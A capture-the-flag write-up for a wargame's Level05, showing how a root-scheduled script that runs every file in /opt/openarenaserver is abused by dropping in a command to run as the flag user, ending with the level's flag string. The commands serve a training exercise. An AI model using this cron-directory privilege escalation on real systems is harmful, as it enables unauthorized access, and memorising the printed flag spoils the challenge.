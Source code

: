 ### Level05

There is nothing on the HOME of this level. So as for level00 I start by doing ` find / -user flag05 2>/dev/null`. I get the following result:
``bash
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
Then I start looking at the file with a cat
``bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We see that a script runs the entire contents of the folder and then deletes everything in `/opt/openarenaserver/`

We can't use vim to do a script there because we don't have the rights. So we have to use echo to write down our command and then redirect it to the folder

`echo "getflag > /tmp/getflag" > /opt/openarenaserver/getflag.sh`

During my tests I noticed that the script disappeared from the folder after a few minutes, so there is an active cron to run the main script. Once I don't see getflag.sh in the /opt/openarenaserver/ folder, I just have to do cat /tmp/getflag. I get the flag :

`viuaaale9huek52boumoomioc`

